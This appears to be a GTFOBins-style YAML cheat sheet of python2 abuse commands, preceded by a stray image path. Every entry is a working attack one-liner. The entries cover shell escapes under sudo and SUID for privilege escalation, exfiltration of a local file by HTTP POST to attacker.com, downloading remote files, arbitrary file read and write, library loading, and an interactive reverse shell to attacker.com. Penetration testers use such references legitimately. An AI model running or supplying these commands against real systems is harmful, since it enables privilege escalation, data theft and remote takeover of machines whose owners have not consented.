 ```yaml
---
functions:
  execute-interactive:
    - code: python2 -c 'import os; os.system("/bin/sh")'
  sudo-enabled:
    - code: sudo python2 -c 'import os; os.system("/bin/sh")'
  suid-enabled:
    - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python2 -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python2 -m SimpleHTTPServer $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |-
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
  reverse-shell-interactive:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  file-read:
    - code: python2 -c 'open("file_to_read").read()'
  file-write:
    - code: python2 -c 'open("file_to_write","w+").write("data")'
  load-library:
    - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
---
```

